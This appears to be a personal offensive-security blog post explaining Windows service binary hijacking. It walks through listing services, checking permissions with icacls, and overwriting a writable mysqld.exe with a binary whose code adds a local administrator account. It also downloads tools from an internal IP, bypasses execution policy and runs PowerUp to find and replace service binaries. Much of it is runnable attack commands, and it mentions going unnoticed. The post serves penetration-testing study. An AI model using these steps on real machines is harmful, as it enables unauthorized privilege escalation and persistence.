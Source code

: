 ```yaml
---
layout: post
title: Windows Service Binary Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit", "powerup"]
---
```


#### hijacking binary services

in some instances software services may be tied to binaries that are given open permisions - if the user has the ability to read and write then we can replace the binary with our own and restart the service or computer to allow it to execute in the context of the system user

### NOTE: when using a network logon like - WinRM or a bind shell these commands Get-CimInstance and Get-Service will not have permissions if the user does not have admin privs but RDP can get around this

to list the services with their corresponding path

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

the result of this comman displays a couple services that are located in a non Windows system directory like \Xampp - this means that the developer would be responsible for managing the permissions of the binary application for the running service and they would be worth inspecting

to check permissions we can use icacls and Get-ACL

    $ icacls "C:\xampp\apache\bin\httpd.exe"

    user (RX)

    $ icacls "C:\xampp\mysql\bin\mysqld.exe"

    user (F)

the rx means the user can read and execute but we cannot write so we are unable to overwrite or replace the binary with ours - the F means we have full access to the binary

for this example we will create compile an executable that adds a user with the following commands

    i = system ("net user user2 password123! /add");
    i = system ("net localgroup administrators user2 /add");

since we have access to the target machine we will copy the binary over

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile adduser.exe

we backup the original service just in case we want to restore operation and go unnoticed

    PS > move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

and then copy our binary over

    PS > move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

finally we need to restart the service which can be achieved several ways if priveleges permit

    PS > net stop mysql

    PS > Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

this cmd will tell us if the service has auto startup enabled

if this is the case we can reboot the machine if allowed

    PS > shutdown /r /t 0

once rebooted the malicious service should be running and we can check to see if our code has been executed

    PS > Get-LocalGroupMember administrators

#### PowerUp service hijacking

now let's use a powershell script to see if it can detect these binaries that can be replaced

    $ python3 -m http.server 80

    PS > iwr -uri http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

copying the script over

    PS > powershell -ep bypass

ep bypsass to execute the script

    PS > ./PowerUp.ps1

    PS > Get-ModifiableServiceFile

this will identify writeable services - then we can even attempt to overwrite them with PowerUp

    PS > Install-ServiceBinary -Name 'mysql'

### NOTE: this functionality of the script may fail so should be verified manually

